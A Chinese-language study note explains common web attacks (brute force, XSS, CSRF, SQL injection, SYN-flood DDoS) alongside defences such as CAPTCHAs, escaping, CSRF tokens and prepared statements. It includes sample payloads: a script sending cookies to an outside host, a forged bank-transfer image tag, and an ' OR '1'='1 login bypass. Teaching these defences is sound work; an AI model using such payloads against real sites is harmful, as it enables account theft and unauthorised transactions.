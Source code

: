 ## 攻击技术

### 暴力破解
连续性尝试+字典
一个有效的字典可以大大的提高暴力破解的效率。for example：常用账号密码弱口令
暴力破解防范措施：
1、是否要求用户设置了复杂的密码
2、是否每次尝试登陆都需要安全的验证码
3、是否对用户尝试登陆、试错的行为进行限制（例如，当天密码输入错误超过8次将该账号锁定）
4、双因素认证
关于安全的验证码设计：
验证码必须由后端生成，后端将验证码以图片的形式返回给前端，并把验证码文本放在缓存（例如redis缓存）当中，
前端请求后端，带着表单的同时带着用户填写的验证码与缓存的验证码做比对。

### xss
攻击原理
例如有一个论坛网站，攻击者可以在上面发布以下内容：
<script>location.href="//domain.com/?c=" + document.cookie</script>
之后该内容可能会被渲染成以下形式：
<p><script>location.href="//domain.com/?c=" + document.cookie</script></p>
另一个用户浏览了含有这个内容的页面将会跳转到 domain.com 并携带了当前作用域的
Cookie。如果这个论坛网站通过 Cookie 管理用户登录状态，那么攻击者就可以通过这个
Cookie 登录被攻击者的账号了。
危害
1、窃取用户的 Cookie
2、伪造虚假的输入表单骗取个人信息
3、显示伪造的文章或者图片
防范：过滤特殊字符
例如将 < 转义为 &lt;，将 > 转义为 &gt;，从而避免 HTML 和 Javascript 代码的运行。
富文本编辑器允许用户输入 HTML 代码，就不能简单地将 < 等字符进行过滤了，极大地提高了
XSS 攻击的可能性。
富文本编辑器通常采用 XSS filter 来防范 XSS 攻击，通过定义一些标签白名单或者黑名单，
从而不允许有攻击性的 HTML 代码的输入。

### csrf
攻击原理
假如一家银行用以执行转账操作的 URL 地址如下：
http://www.examplebank.com/withdraw?account=AccoutName&amount=1000&for=PayeeName。
那么，一个恶意攻击者可以在另一个网站上放置如下代码：
<img src="http://www.examplebank.com/withdraw?account=Alice&amount=1000&for=Badman">。
如果有账户名为 Alice 的用户访问了恶意站点，而她之前刚访问过银行不久，登录信息尚未过期，那么她就会损失1000美元。

防范：添加校验Token
在访问敏感数据请求时，要求用户浏览器提供不保存在Cookie中，并且攻击者无法伪造
的数据作为校验。例如服务器生成随机数并附加在表单中，并要求客户端传回这个随机数。

### sql注入
概念
服务器上的数据库运行非法的SQL语句，主要通过拼接来完成。
攻击原理
例如一个网站登录验证的 SQL 查询代码为：
strSQL = "SELECT * FROM users WHERE (name = '" + userName + "') and (pw = '"+ passWord +"');"
如果填入以下内容：
userName = "1' OR '1'='1";
passWord = "1' OR '1'='1";
那么 SQL 查询字符串为：
strSQL = "SELECT * FROM users WHERE (name = '1' OR '1'='1') and (pw = '1' OR '1'='1');"
此时无需验证通过就能执行以下查询：
strSQL = "SELECT * FROM users;"
防范措施：
使用orm框架，例如mybatis
'#{}'方式能够很大程度防止sql注入。${}方式无法防止Sql注入。${}方式一般用于传入数据库对象，例如传入表名.
MyBatis是如何做到SQL预编译的呢？其实在框架底层，是JDBC中的PreparedStatement类在起作用，
PreparedStatement是我们很熟悉的Statement的子类，它的对象包含了编译好的SQL语句。这种
“准备好”的方式不仅能提高安全性，而且在多次执行同一个SQL时，能够提高效率。原因是SQL已编
译好，再次执行时无需再编译。
for example:
select * from student where student_name = #{name}
预编译后,会动态解析成一个参数标记符?：
select * from student where student_name = ?
而使用${}在动态解析时候，会传入参数字符串
select * from student where student_name = 'lyrics'
'#{}'这种取值是编译好SQL语句再取值---->先编译后取值
'${}'这种是取值以后再去编译SQL语句---->先取值后编译

### DDOS
在三次握手过程中,Server发送SYN-ACK之后，收到Client的ACK之前的TCP连接
称为半连接(half-open connect),此时Server处于SYN_RCVD状态,当收到ACK后,
Server转入ESTABLISHED状态。SYN攻击就是Client在短时间内伪造大量不存在的IP地址,
并向Server不断地发送SYN包,Server回复确认包,并等待Client的确认,由于源地址是
不存在的,因此,Server需要不断重发直至超时,这些伪造的SYN包将产时间占用未连接
队列,导致正常的SYN请求因为队列满而被丢弃,从而引起网络堵塞甚至系统瘫痪。SYN攻击时
一种典型的DDOS攻击,检测SYN攻击的方式非常简单,即当Server上有大量半连接状态
且源IP地址是随机的,则可以断定遭到SYN攻击了,使用如下命令可以让之现行:
netstat -nap | grep SYN_RECV